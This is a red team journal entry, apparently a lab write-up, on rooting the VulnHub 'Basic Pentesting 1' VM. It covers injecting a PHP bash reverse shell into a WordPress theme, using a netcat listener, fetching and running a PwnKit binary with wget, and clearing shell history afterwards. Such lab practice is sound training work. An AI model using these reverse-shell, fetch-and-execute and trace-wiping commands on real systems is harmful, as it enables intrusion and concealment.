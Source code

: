 
## Red Team Journal – June 15, 2025

## 🖥️ Target: VulnHub – Basic Pentesting 1  

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

	<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

	curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

	nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

	uname -a
	cat /etc/os-release
	ls /home
	sudo -l
	find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

	python3 -m http.server 8000

On Target:

	cd /tmp
	wget http://192.168.56.10:8000/PwnKit -O PwnKit
	chmod +x PwnKit
	./PwnKit

Result:

	root@vtcsec:/tmp# whoami
	root

**Cleanup Actions**

	rm /tmp/PwnKit
	history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

* nmap, gobuster, wpscan
* curl, netcat, wget, python3
* Metasploit (for ProFTPD attempt)
* Static PwnKit binary

**Key Takeaways**

* Always check /wp-login.php and XML-RPC for exposed WordPress logins
* Use encoded curl payloads to bypass broken command injection
* Static precompiled binaries save time vs. build errors (GLIBC mismatch)
* Do not use fg without setting proper terminal (stty raw -echo)
* After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults



<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2MTU4NTY1NTddfQ==
-->